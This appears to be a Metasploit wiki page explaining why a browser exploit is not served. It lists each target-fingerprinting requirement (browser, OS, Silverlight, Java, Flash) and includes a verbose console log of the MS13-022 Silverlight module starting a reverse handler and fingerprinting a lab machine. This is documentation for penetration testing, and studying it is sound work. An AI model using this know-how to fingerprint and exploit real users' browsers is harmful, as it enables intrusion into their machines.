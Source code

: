 Ah, I see your Metasploit has refused to serve your browser exploit to the target due to some kind of unmet requirements. This doesn't necessarily mean your target isn't vulnerable, sometimes it's just that it doesn't have the right conditions to be exploited. Or, it actually does mean the target isn't vulnerable. The following explains what each unmet requirement means:

* **:source** - Target has JavaScript disabled.
* **:ua_name** - Target isn't using the preferred browser. For example: Firefox, IE.
* **:ua_ver** - Target isn't using the preferred browser version.
* **:os_name** - Target isn't using the preferred operating system.
* **:os_flavor** - Target isn't using the preferred OS edition. For example: XP, Win 7.
* **:language** - Target isn't using the preferred OS language.
* **:arch** - Target isn't on the preferred architecture. For example: x86/x64
* **:proxy** - Target has a proxy.
* **:silverlight** - Target doesn't have Silverlight installed.
* **:office** - Target doesn't have the preferred version of Microsoft Office installed, so the exploit cannot bypass DEP.
* **:java** - Target doesn't have the preferred version of Java. Often this is used by exploits to bypass DEP.
* **:clsid** - Target doesn't have the preferred ActiveX control.
* **:method** - Target doesn't have the preferred ActiveX control.
* **:mshtml_build** - Target isn't on the preferred build of Internet Explorer. Usually means only specific builds of IE are vulnerable.
* **:flash** - Target isn't using the preferred version of Adobe Flash. Often this is used by exploits to leverage code execution.

### How to manually check requirement comparisons:

If you'd like to check the comparisons, simply set VERBOSE to true. The following is an example:

```
msf exploit(ms13_022_silverlight_script_object) > set VERBOSE true
VERBOSE => true
msf exploit(ms13_022_silverlight_script_object) > run
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.1.64:4444 
[*] Using URL: http://0.0.0.0:8080/SHIzaS2aZxIA6
msf exploit(ms13_022_silverlight_script_object) >
[*]  Local IP: http://192.168.1.64:8080/SHIzaS2aZxIA6
[*] Server started.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'sVfdquJGHzpHyLItxoTgeJI'.
[*] 192.168.1.80     ms13_022_silverlight_script_object - Gathering target information.
[*] 192.168.1.80     ms13_022_silverlight_script_object - Sending response HTML.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Info receiver page called.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'ZnKtXOQIvxAclSrEOxJ'.
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received sniffed browser data over POST: 
{"os_name"=>["Microsoft Windows"], "os_flavor"=>["XP"], "ua_name"=>["MSIE"], "ua_ver"=>["8.0"], "arch"=>["x86"], "java"=>["null"], "silverlight"=>["false"], "flash"=>["null"], "office"=>["null"], "mshtml_build"=>["18702"]}.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'ZnKtXOQIvxAclSrEOxJ'.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Serving exploit to user with tag ZnKtXOQIvxAclSrEOxJ
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Setting target "ZnKtXOQIvxAclSrEOxJ" to :tried.
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: source=(?i-mx:script|headers) vs k=script
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: os_name=Microsoft Windows vs k=Microsoft Windows
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: ua_name=MSIE vs k=MSIE
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: silverlight=true vs k=false
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: arch=x86 vs k=x86
[!] 192.168.1.80     ms13_022_silverlight_script_object - Exploit requirement(s) not met: silverlight
```

### Related Reading:

https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-BrowserExploitServer